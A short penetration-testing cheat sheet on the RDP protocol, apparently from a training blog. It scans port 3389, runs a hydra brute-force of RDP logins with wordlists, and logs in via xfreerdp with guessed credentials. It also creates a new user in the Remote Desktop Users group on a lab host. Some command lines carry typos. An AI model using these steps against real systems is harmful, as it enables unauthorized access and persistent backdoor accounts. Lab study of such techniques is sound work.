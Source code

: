 ```yaml
---
title: 'RDP'
description: ''
pubDate: 'Jul 03 2022'
heroImage: '/ldapi.jpg'
tag: ['windows', 'RDP']
---
```


### Information

- The Remote Dektop Protocol is propriertary GUI remote access protocol developed by Microsoft and is used to remotely connect and interact with a windows system.

- Uses 3389 TCP port by default, .

- Requires authentication.

- Can perform a brute-force attack

```bash
# Detect if that port its really a rdp.
$ mfsconsole use auxiliary/scanner/rdp/rdp_scanner

# Brute force.
$ hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/linux_pass.txt rdp://target -s 3389

$ xfreerdp /u:administrator /p:password123  /v:ta rget:port
```

crear usuario rdp

```bash
net user guest_1 guestpwd /add
net localgroup "Remote Desktop Users" guest_1 /add
net user
##

xfreerdp /u:guest_1 /p:guestpwd /v:demo.ine.local

```
